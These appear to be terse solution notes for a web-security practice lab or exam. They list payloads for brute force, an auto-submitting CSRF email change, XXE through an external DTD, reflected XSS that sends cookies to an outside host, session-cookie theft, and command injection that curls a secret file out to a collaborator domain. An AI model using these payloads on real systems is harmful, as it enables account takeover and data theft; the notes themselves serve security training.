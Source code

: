 # Extra 13  

## 1 - 1  
  
>Brute force forgot password valid user  

```
&username=$USER-LIST$&password=RandomIncorrect112233
```  
  
## 1 - 2  

>CSRF change email of administrator

```
<html> 
  <body>
<meta name="referrer" content="no-referrer">
    <form action="https://TARGET.net/my-account-details/changeemail" method="POST">
      <input type="hidden" name="email" value="administrator&#64;exploit&#45;SERVER&#46;exploit&#45;server&#46;net" />
      <input type="hidden" name="form&#45;id" value="abcdef" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```  


>deliver to victim  

## 1 - 3  

>admin User import XML file

```
https://exploit-server.net/exploit.dtd
```  

>upload xml  

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit.dtd"> %xxe;]>
<users>
    <user>
        <username>CrazyUser</username>
        <email>CrazyUser@email.net</email>
    </user>    
</users>
```  
  
-----
  
## 2 - 1  
  
>reflected xss  

```
/resources/images/tracker.gif?searchTerms=fuzz
```  

>exploit server, deliver to victim  

```
<script>
location = "https://TARGET.net/?term=%3c%2f%53%63%52%69%50%74%20%3e%3c%69%6d%67%20%73%72%63%3d%61%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%73%3a%2f%2f%7a%33%33%65%77%64%34%32%6a%73%67%73%6d%71%32%63%39%69%72%36%77%6b%71%33%32%75%38%6c%77%62%6b%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%3f%62%69%73%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3e"
</script>
```  

## 2 - 2  

>password refresh csrf + current user csrf token 

>request user cookie  

```
POST /forgot_password HTTP/2
Host: TARGET.net
Cookie: session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--z%z%z%z%3d

csrf=CurrentUserCookieValueX&username=administrator
```  

>IN response 200 ok GET the admin cookie value created  

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=%7b%22username%22%3a%22administrator%22%2c%22isloggedin%22%3atrue%7d--xx%xx%2blQ%3d%xx; Secure; SameSite=None
```  

>copy stolen cookie to session


## 2 - 3  

>admin function upload xml , OS command inject

```
------WebKitFormBoundary

Content-Disposition: form-data; name="user-import-file"; filename="exam13.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>user16</username>
        <email>user16@exploit-server.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
    </user>
</users>

------WebKitForm
```  
